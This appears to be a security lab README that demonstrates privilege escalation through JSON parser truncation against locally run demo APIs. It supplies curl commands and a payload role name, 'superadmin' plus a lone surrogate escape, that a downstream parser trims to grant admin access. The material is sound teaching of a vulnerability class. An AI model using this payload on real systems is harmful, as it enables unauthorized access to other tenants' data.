

# Lab 2: Privilege Escalation in a Multi-tenant Application
<p align="center">
  
</p>

###
Let's consider a multi-tenant application where an organization admin is able to create custom user roles. We also know that users that have cross-organizational access are assigned the internal role `superadmin`. Let’s try to escalate privileges.

There are two APIs:
* **User API (port 5002)**: Python, stdlib JSON
* **Permissions API (port 5003)**: Python, stdlib JSON
* **Admin API (port 5004)**: Python, ujson


### Setup
Run docker-compose from the `lab2` directory:

```bash
docker-compose up -d
```

### Demo: Character truncation


1\. Create a role that will be truncated by a downstream parsers.

Command:
```
curl localhost:5002/role/create -H "Content-Type: application/json" -d @role2.json
```

Request:
```
POST /role/create HTTP/1.1
...

{
        "name": "superadmin\ud888"
}
```

2\. Create a new user with that malformed role name.

Command:
```
curl localhost:5002/user/create -H "Content-Type: application/json" -d @user2.json
```

Request:
```
POST /user/create HTTP/1.1
...

{
    "user": "exampleUser",
    "roles": [
        "superadmin\ud888"
    ]
}
```

3\. Access the Admin API due to truncation performed by parser when reading the response from the Permissions API ([See blog post for more details](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities#Example-Validate-Store%20Pattern)).

Command:
```
curl localhost:5004/admin -H "Cookie: username=exampleUser"
```

**Note:** `role1.json`, `user1.json` are templates for well-behaved requests. `user3.json` attempts to directly assign `superadmin` role.
